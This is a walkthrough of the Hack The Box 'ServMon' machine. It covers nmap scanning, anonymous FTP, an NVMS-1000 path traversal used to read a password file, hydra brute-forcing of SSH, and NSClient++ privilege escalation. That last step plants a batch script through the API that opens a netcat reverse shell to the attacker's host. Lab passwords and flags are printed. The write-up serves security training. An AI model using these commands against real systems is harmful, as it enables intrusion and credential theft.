


# ServMon

## Enumeration
Once we connect to the htb network, lets start with our host enumeration.
```bash
kali@kali:~/hackthebox/Servmon$ nmap -sC -sV -p- -oN nmap.txt 10.10.10.184
Service scan Timing: About 94.44% done; ETC: 10:51 (0:00:08 remaining)                                                        
Nmap scan report for 10.10.10.184                                                                                             
Host is up (0.021s latency).                                                                                                  
Not shown: 65517 closed ports                                                                                                 
PORT      STATE SERVICE       VERSION                                                                                         
21/tcp    open  ftp           Microsoft ftpd                                                                                  
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                        
|_01-18-20  12:05PM       <DIR>          Users                                                                                
| ftp-syst:                                                                                                                   
|_  SYST: Windows_NT                                                                                                          
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
|_  256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
80/tcp    open  http
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
|_http-title: Site doesnt have a title (text/html).
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
5666/tcp  open  tcpwrapped
6063/tcp  open  tcpwrapped
6699/tcp  open  napster?
8443/tcp  open  ssl/https-alt
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|     Location: /index.html
|     refox/68.0
|     workers
|_    jobs
| http-title: NSClient++
|_Requested resource was /index.html
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2020-01-14T13:24:20
|_Not valid after:  2021-01-13T13:24:20
|_ssl-date: TLS randomness does not represent time
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port80-TCP:V=7.80%I=7%D=6/5%Time=5EDA5B7F%P=x86_64-pc-linux-gnu%r(NULL,
SF:6B,"HTTP/1\.1\x20408\x20Request\x20Timeout\r\nContent-type:\x20text/htm
SF:l\r\nContent-Length:\x200\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\
SF:r\n")%r(GetRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text
SF:/html\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x2
SF:0\r\n\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XH
SF:TML\x201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DT
SF:D/xhtml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.o
SF:rg/1999/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x
SF:20\x20\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\
SF:x20\x20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20
SF:\x20\x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%
SF:r(HTTPOptions,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html
SF:\r\nContent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n
SF:\r\n\xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x
SF:201\.0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xht
SF:ml1-transitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/19
SF:99/xhtml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x2
SF:0\x20<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x
SF:20\x20window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\
SF:x20\x20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n")%r(RTS
SF:PRequest,1B4,"HTTP/1\.1\x20200\x20OK\r\nContent-type:\x20text/html\r\nC
SF:ontent-Length:\x20340\r\nConnection:\x20close\r\nAuthInfo:\x20\r\n\r\n\
SF:xef\xbb\xbf<!DOCTYPE\x20html\x20PUBLIC\x20\"-//W3C//DTD\x20XHTML\x201\.
SF:0\x20Transitional//EN\"\x20\"http://www\.w3\.org/TR/xhtml1/DTD/xhtml1-t
SF:ransitional\.dtd\">\r\n\r\n<html\x20xmlns=\"http://www\.w3\.org/1999/xh
SF:tml\">\r\n<head>\r\n\x20\x20\x20\x20<title></title>\r\n\x20\x20\x20\x20
SF:<script\x20type=\"text/javascript\">\r\n\x20\x20\x20\x20\x20\x20\x20\x2
SF:0window\.location\.href\x20=\x20\"Pages/login\.htm\";\r\n\x20\x20\x20\x
SF:20</script>\r\n</head>\r\n<body>\r\n</body>\r\n</html>\r\n");
==============NEXT SERVICE FINGERPRINT (SUBMIT INDIVIDUALLY)==============
SF-Port8443-TCP:V=7.80%T=SSL%I=7%D=6/5%Time=5EDA5B87%P=x86_64-pc-linux-gnu
SF:%r(GetRequest,74,"HTTP/1\.1\x20302\r\nContent-Length:\x200\r\nLocation:
SF:\x20/index\.html\r\n\r\nrefox/68\.0\0s\)\.\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\x12\x02\x18\0\x1aE\n\x07workers\x12\x0b\n\x04jobs\x12\x03\x18\xee\x02
SF:\x12")%r(HTTPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\
SF:r\nDocument\x20not\x20found")%r(FourOhFourRequest,36,"HTTP/1\.1\x20404\
SF:r\nContent-Length:\x2018\r\n\r\nDocument\x20not\x20found")%r(RTSPReques
SF:t,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r\n\r\nDocument\x20not\
SF:x20found")%r(SIPOptions,36,"HTTP/1\.1\x20404\r\nContent-Length:\x2018\r
SF:\n\r\nDocument\x20not\x20found");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 3m57s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-05T14:56:09
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 209.46 seconds
```
Let's see what's in ftp.
```bash
kali@kali:~/hackthebox/Servmon$ ftp 10.10.10.184
Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
226 Transfer complete.
ftp> cd Nathan
250 CWD command successful.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:10PM                  186 Notes to do.txt
226 Transfer complete.
ftp> ls ../Nadine
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
ftp> 
```
Lets download those files and see what they say. 
```bash
kali@kali:~/hackthebox/Servmon$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePointkali@kali:~/hackthebox/Servmon$ cat Confidential.txt 
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadinekali@kali:~/hackthebox/Servmon$ 
```
## Foothold & User
So apparently, there is a file called Passwords.txt on Nathan's desktop. Let's check out port 80. 

And lets see if we find any vulnerabilities.
```bash
kali@kali:~/hackthebox/Servmon$ searchsploit nvms
-------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                              |  Path
-------------------------------------------------------------------------------------------- ---------------------------------
NVMS 1000 - Directory Traversal                                                             | hardware/webapps/47774.txt
OpenVms 5.3/6.2/7.x - UCX POP Server Arbitrary File Modification                            | multiple/local/21856.txt
OpenVms 8.3 Finger Service - Stack Buffer Overflow                                          | multiple/dos/32193.txt
TVT NVMS 1000 - Directory Traversal                                                         | hardware/webapps/48311.py
-------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
kali@kali:~/hackthebox/Servmon$ 
```
Ok, so with this particular version of NVME, we can traverse the server file system. And with the information from Confidential.txt, we know exactly where a certain file is.
```bash
msf5 auxiliary(admin/2wire/xslt_password_reset) > search nvms

Matching Modules
================

   #  Name                                       Disclosure Date  Rank    Check  Description
   -  ----                                       ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/tvt_nvms_traversal  2019-12-12       normal  No     TVT NVMS-1000 Directory Traversal


msf5 auxiliary(admin/2wire/xslt_password_reset) > use 0
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > options

Module options (auxiliary/scanner/http/tvt_nvms_traversal):

   Name       Current Setting   Required  Description
   ----       ---------------   --------  -----------
   DEPTH      13                yes       Depth for Path Traversal
   FILEPATH   /windows/win.ini  yes       The path to the file to read
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80                yes       The target port (TCP)
   SSL        false             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                 yes       The base URI path of nvms
   THREADS    1                 yes       The number of concurrent threads (max one per host)
   VHOST                        no        HTTP server virtual host

msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > set FILEPATH /Users/Nathan/Desktop/Passwords.txt
FILEPATH => /Users/Nathan/Desktop/Passwords.txt
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > run

[+] 10.10.10.184:80 - Downloaded 156 bytes
[+] File saved in: /home/kali/.msf4/loot/20200606125216_default_10.10.10.184_nvms.traversal_218439.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/http/tvt_nvms_traversal) > cat /home/kali/.msf4/loot/20200606125216_default_10.10.10.184_nvms.traversal_218439.txt
[*] exec: cat /home/kali/.msf4/loot/20200606125216_default_10.10.10.184_nvms.traversal_218439.txt

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$msf5 auxiliary(scanner/http/tvt_nvms_traversal) > 
```
Ok, we have two possible users and 7 possible passwords. Lets see if we can bruteforce against the different services available.
```bash
kali@kali:~/hackthebox/Servmon$ hydra -L users.txt -P Passwords.txt ftp://10.10.10.184
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-06 12:55:25
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:2/p:7), ~1 try per task
[DATA] attacking ftp://10.10.10.184:21/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-06 12:55:26
kali@kali:~/hackthebox/Servmon$ hydra -L users.txt -P Passwords.txt ssh://10.10.10.184
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-06 12:55:31
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 14 tasks per 1 server, overall 14 tasks, 14 login tries (l:2/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-06 12:55:33
```
And we found ssh credentials!
```bash
kali@kali:~/hackthebox/Servmon$ ssh nadine@10.10.10.184 
nadine@10.10.10.184s password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine                          
                                                          
nadine@SERVMON C:\Users\Nadine>dir                        
 Volume in drive C has no label.                      
 Volume Serial Number is 728C-D22C                    
                                                      
 Directory of C:\Users\Nadine                         
                                                      
06/06/2020  17:19    <DIR>          .                 
06/06/2020  17:19    <DIR>          ..                
18/01/2020  11:23    <DIR>          3D Objects        
18/01/2020  11:23    <DIR>          Contacts          
08/04/2020  22:28    <DIR>          Desktop           
08/04/2020  22:28    <DIR>          Documents         
18/01/2020  11:23    <DIR>          Downloads         
08/04/2020  22:27    <DIR>          Favorites         
08/04/2020  22:27    <DIR>          Links             
18/01/2020  11:23    <DIR>          Music             
06/06/2020  16:37                 0 nscp              
18/01/2020  11:31    <DIR>          OneDrive          
18/01/2020  11:23    <DIR>          Pictures          
18/01/2020  11:23    <DIR>          Saved Games       
18/01/2020  11:23    <DIR>          Searches          
06/06/2020  17:19            32,976 UsersNadineDesktop
18/01/2020  11:23    <DIR>          Videos            
               2 File(s)         32,976 bytes         
              15 Dir(s)  27,865,587,712 bytes free       
nadine@SERVMON C:\Users\Nadine>cd Desktop 

nadine@SERVMON C:\Users\Nadine\Desktop>dir
 Volume in drive C has no label.                  
 Volume Serial Number is 728C-D22C                
                                                  
 Directory of C:\Users\Nadine\Desktop             
                                                  
08/04/2020  22:28    <DIR>          .             
08/04/2020  22:28    <DIR>          ..            
06/06/2020  16:07                34 user.txt      
               1 File(s)             34 bytes     
               2 Dir(s)  27,865,587,712 bytes free
                                                  
nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
04d78260e80edf4875fa5b0c95eda849  
```
## Priviledge Escalation
Looking at the initial nmap scan, we can see that NSClient++ is running on port 8443. Also, it was mentioned in the Notes to Do.txt. According to https://www.exploit-db.com/exploits/46802, we can use NSClient++ to get root. Lets move through the steps in the exploit.
```bash
adine@SERVMON C:\Program Files\NSClient++>type nsclient.ini
´╗┐# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help


; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1


; in flight - TODO
[/settings/NRPE/server]

; Undocumented key
ssl options = no-sslv2,no-sslv3

; Undocumented key
verify mode = peer-cert

; Undocumented key
insecure = false


; in flight - TODO
[/modules]

; Undocumented key
CheckHelpers = disabled

; Undocumented key
CheckEventLog = disabled

; Undocumented key
CheckNSCP = disabled

; Undocumented key
CheckDisk = disabled

; Undocumented key
CheckSystem = disabled

; Undocumented key
WEBServer = enabled

; Undocumented key
NRPEServer = enabled

; CheckTaskSched - Check status of your scheduled jobs.
CheckTaskSched = enabled

; Scheduler - Use this to schedule check commands and jobs in conjunction with for instance passive monitoring through NSCA
Scheduler = enabled

; CheckExternalScripts - Module used to execute external scripts
CheckExternalScripts = enabled


; Script wrappings - A list of templates for defining script commands. Enter any command line here and they will be expanded by scripts placed under the wrap
ped scripts section. %SCRIPT% will be replaced by the actual script an %ARGS% will be replaced by any given arguments.
[/settings/external scripts/wrappings]

; Batch file - Command used for executing wrapped batch files
bat = scripts\\%SCRIPT% %ARGS%

; Visual basic script - Command line used for wrapped vbs scripts
vbs = cscript.exe //T:30 //NoLogo scripts\\lib\\wrapper.vbs %SCRIPT% %ARGS%

; POWERSHELL WRAPPING - Command line used for executing wrapped ps1 (powershell) scripts
ps1 = cmd /c echo If (-Not (Test-Path "scripts\%SCRIPT%") ) { Write-Host "UNKNOWN: Script `"%SCRIPT%`" not found."; exit(3) }; scripts\%SCRIPT% $ARGS$; exit(
$lastexitcode) | powershell.exe /noprofile -command -


; External scripts - A list of scripts available to run from the CheckExternalScripts module. Syntax is: `command=script arguments`
[/settings/external scripts/scripts]


; Schedules - Section for the Scheduler module.
[/settings/scheduler/schedules]

; Undocumented key
foobar = command = foobar


; External script settings - General settings for the external scripts module (CheckExternalScripts).
[/settings/external scripts]
allow arguments = true

nadine@SERVMON C:\Program Files\NSClient++>

```
And we found 
Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1
Lets port forward port 8443 to 127.0.0.1
```bash
kali@kali:~/hackthebox/Servmon$ ssh -L 9000:127.0.0.1:8443 nadine@10.10.10.184
```
On the attacking machine
```bash
kali@kali:~/hackthebox/Servmon$ locate nc.exe
/usr/share/windows-resources/binaries/nc.exe
kali@kali:~/hackthebox/Servmon$ cp /usr/share/windows-resources/binaries/nc.exe .  
kali@kali:~/hackthebox/Servmon$ python3 -m http.server &
kali@kali:~/hackthebox/Servmon$ nc -l -p 1234
```
Then use a python server to transfer nc.exe to ServMon. I tried opening the gui on 127.0.0.1:9000 but the UI wasn't showing up. Apparently, this was a problem that other people had, but we can use curl to send ourselves the reverse shell. On ServMon:
```bash
nadine@SERVMON C:\Temp> wget 10.10.114.10:8000/nc.ece
nadine@SERVMON C:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/evil.bat --data-binary "C:\Temp\nc.e
xe 10.10.14.10 1234 -e cmd.exe"
Added evil as scripts\evil.bat
nadine@SERVMON C:\Temp>curl -s -k -u admin:ew2x6SsGTxjRwXOT https://localhost:8443/api/v1/queries/evil/commands/execute?time=3m
{"command":"testing1","lines":[{"message":"Command evil didn't terminate within the timeout period 60s","perf":{}}],"result":3}
nadine@SERVMON C:\Temp>

``` 
On our listener:
```bash
kali@kali:~/hackthebox/Servmon$ nc -l -p 1234
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>cd /Users
cd /Users
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of C:\Users

08/04/2020  22:26    <DIR>          .
08/04/2020  22:26    <DIR>          ..
08/04/2020  22:55    <DIR>          Administrator
12/06/2020  09:50    <DIR>          Nadine
12/06/2020  05:24    <DIR>          Nathan
08/04/2020  23:20    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)  27,600,916,480 bytes free

C:\Users>cd Administrator
cd Administrator

C:\Users\Administrator>cd Desktop
cd Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
2a41d10aa355a250fd718c733d5c214d

C:\Users\Administrator\Desktop>     
```
## Conclusion
IF you're a beginner, getting user was pretty informative, but it was disappointing that the UI didn't work, meaning I had to spend a bit more time finding out how to use the API. 